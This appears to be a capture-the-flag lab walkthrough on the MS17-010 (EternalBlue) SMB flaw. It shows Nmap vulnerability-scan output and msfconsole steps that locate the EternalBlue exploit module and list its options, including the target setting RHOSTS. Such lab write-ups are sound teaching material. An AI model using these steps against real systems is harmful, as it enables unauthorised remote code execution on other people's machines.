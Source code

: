 ```bash
|_smb-vuln-ms10-061: NT_STATUS_ACCESS_DENIED
| smb-vuln-ms17-010: 
|   VULNERABLE:
|   Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2017-0143
|     Risk factor: HIGH
|       A critical remote code execution vulnerability exists in Microsoft SMBv1
|        servers (ms17-010).
|           
|     Disclosure date: 2017-03-14
|     References:
|       https://blogs.technet.microsoft.com/msrc/2017/05/12/customer-guidance-for-wannacrypt-attacks/
|       https://technet.microsoft.com/en-us/library/security/ms17-010.aspx
|_      https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0143

Nmap done: 1 IP address (1 host up) scanned in 97.22 seconds
```


#### Task 2. Gain Access


__Q: Find the exploitation code we will run against the machine. What is the full path of the code? (Ex: exploit/........)__  
-  For this run `msfconsole` nd search for `ms17_010`

```bash
msf6 > search ms17_010

Matching Modules
================

   #  Name                                           Disclosure Date  Rank     Check  Description
   -  ----                                           ---------------  ----     -----  -----------
   0  auxiliary/admin/smb/ms17_010_command           2017-03-14       normal   No     MS17-010 EternalRomance/EternalSynergy/EternalChampion SMB Remote Windows Command Execution
   1  auxiliary/scanner/smb/smb_ms17_010                              normal   No     MS17-010 SMB RCE Detection
   2  exploit/windows/smb/ms17_010_eternalblue       2017-03-14       average  Yes    MS17-010 EternalBlue SMB Remote Windows Kernel Pool Corruption
   3  exploit/windows/smb/ms17_010_eternalblue_win8  2017-03-14       average  No     MS17-010 EternalBlue SMB Remote Windows Kernel Pool Corruption for Win8+
   4  exploit/windows/smb/ms17_010_psexec            2017-03-14       normal   Yes    MS17-010 EternalRomance/EternalSynergy/EternalChampion SMB Remote Windows Code Execution
```

__Ans:__`exploit/windows/smb/ms17_010_eternalblue`

__Q:Show options and set the one required value. What is the name of this value?__
__A: RHOSTS__  

```bash
msf6 exploit(windows/smb/ms17_010_eternalblue) > show options

Module options (exploit/windows/smb/ms17_010_eternalblue):

   Name           Current Setting  Required  Description
   ----           ---------------  --------  -----------
   RHOSTS                          yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT          445              yes       The target port (TCP)
   SMBDomain      .                no        (Optional) The Windows domain to use for authentication
   SMBPass                         no        (Optional) The password for the specified username
   SMBUser                         no        (Optional) The username to authenticate as
```